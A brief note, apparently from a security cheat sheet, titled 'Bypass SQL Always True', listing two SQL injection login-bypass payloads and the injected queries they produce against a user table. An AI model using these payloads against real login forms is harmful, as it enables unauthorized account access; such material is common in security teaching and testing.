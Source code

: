 ## Bypass SQL Always True

```php
// payload
' or '1'='1

// example query
"SELECT * FROM user WHERE username = '' or '1'='1' AND password = '' or '1'='1'" 
```

```php
// payload
'' or 1=1

// example query
"SELECT * FROM user WHERE username = '' or 1=1 AND password = '' or 1=1" 
```
